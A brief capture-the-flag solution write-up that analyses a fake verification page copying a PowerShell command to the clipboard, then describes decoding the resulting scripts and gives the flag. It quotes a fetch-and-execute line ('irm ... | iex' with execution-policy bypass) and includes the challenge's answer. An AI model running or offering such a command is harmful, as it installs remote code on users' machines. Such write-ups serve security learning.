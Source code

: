 # Solution

From the URL given, inspect the js code, you will see a text being copy to clipboard.
```const commandToRun = `powershell -NoP -Ep Bypass -c irm ${domain}/verify | iex`;```

Another few powershell commands will appear after running the  command above.

To deobfuscate/decode the following powershell, just run it without using `IEX`. 

The final powershell command will execute:
`[System.Environment]::SetEnvironmentVariable("flag", "flag{737450a28f36e1fd808e4ed99f2d81e0}", "Process")`

Flag: `flag{737450a28f36e1fd808e4ed99f2d81e0}`

Solved by: n3rr